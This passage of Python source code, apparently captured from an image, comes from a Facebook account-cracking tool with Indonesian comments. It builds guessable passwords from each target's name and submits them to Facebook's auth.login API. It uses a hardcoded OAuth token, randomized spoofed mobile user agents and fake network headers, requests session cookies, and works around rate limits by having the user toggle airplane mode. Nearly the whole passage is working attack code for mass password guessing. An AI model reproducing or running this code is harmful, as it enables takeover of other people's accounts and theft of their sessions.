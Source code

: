 			for user in id:
				uid, name = user.split("<=>")
				nam = name.split(' ')
				if len(name) == 3 or len(name) == 4 or len(name) == 5:
					pwx = [name, nam[0]+"123", nam[0]+"12345"]
				else:
					pwx = [name, nam[0]+"123", nam[0]+"12345"]
				fall.submit(mfbasic, uid, pwx,"https://m.facebook.com")
		exit("\n\n [#] crack selesai...")
		
### BAGIAN CRACK ###
def api(uid, pwx):
	global ok, cp, loop, token
	sys.stdout.write(
		"\r %s[*] [crack] %s/%s OK:-%s - CP:-%s "%(N,loop, len(id), len(ok), len(cp))
	); sys.stdout.flush()
	for pw in pwx:
		pw = pw.lower()
		ua = random.choice([
			'Mozilla/5.0 (Linux; U; Android 4.1.2; de-de; GT-I8190 Build/JZO54K) AppleWebKit/534.30 (KHTML, like Gecko) Version/4.0 Mobile Safari/534.30',
			'Mozilla/5.0 (Linux; Android 5.1; A1601 Build/LMY47I) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.98 Mobile Safari/537.36',
			'Mozilla/5.0 (Linux; Android 6.0; MYA-L22 Build/HUAWEIMYA-L22) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.84 Mobile Safari/537.36',
			'Mozilla/5.0 (Linux; Android 7.0; SAMSUNG SM-G610M Build/NRD90M) AppleWebKit/537.36 (KHTML, like Gecko) SamsungBrowser/7.4 Chrome/59.0.3071.125 Mobile Safari/537.36',
			'Mozilla/5.0 (Linux; Android 7.1; vivo 1716 Build/N2G47H) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.98 Mobile Safari/537.36',
			'Mozilla/5.0 (Linux; Android 9; SAMSUNG SM-G950U) AppleWebKit/537.36 (KHTML, like Gecko) SamsungBrowser/10.2 Chrome/71.0.3578.99 Mobile Safari/537.36',
			'Mozilla/5.0 (Linux; Android 9; SAMSUNG SM-G960U) AppleWebKit/537.36 (KHTML, like Gecko) SamsungBrowser/10.1 Chrome/71.0.3578.99 Mobile Safari/537.36'
		])
		headers = ({
			'Authorization': 'OAuth 350685531728%7C62f8ce9f74b12f84c123cc23437a4a32',
			'x-fb-connection-bandwidth': str(random.randint(20000000.0, 30000000.0)),
			'x-fb-sim-hni': str(random.randint(20000, 40000)),
			'x-fb-net-hni': str(random.randint(20000, 40000)),
			'x-fb-connection-quality': 'EXCELLENT',
			'x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA',
			'content-type': 'application/x-www-form-urlencoded',
			'user-agent': ua,
			'x-fb-http-engine': 'Liger'
		})
		params = {
			'format': 'JSON',
			'sdk_version': '2',
			'email': str(uid),
			'locale': 'en_US',
			'password': str(pw),
			'sdk': 'ios',
			'generate_session_cookies': '1',
			'sig': '3f555f99fb61fcd7aa0c44f58f522ef6',
		}
		status_masuk = requests.get("https://b-api.facebook.com/method/auth.login",headers=headers,params=params) 
		file_jason = json.loads(status_masuk.text)
		if "Calls to this api have exceeded the rate limit. (613)" in file_jason:
			t=15
			while t:
				mins, secs = divmod(t, 60)
				sys.stdout.write("\r %s[!] aktifkan mode pesawat selama 5 detik%s"%(M,N))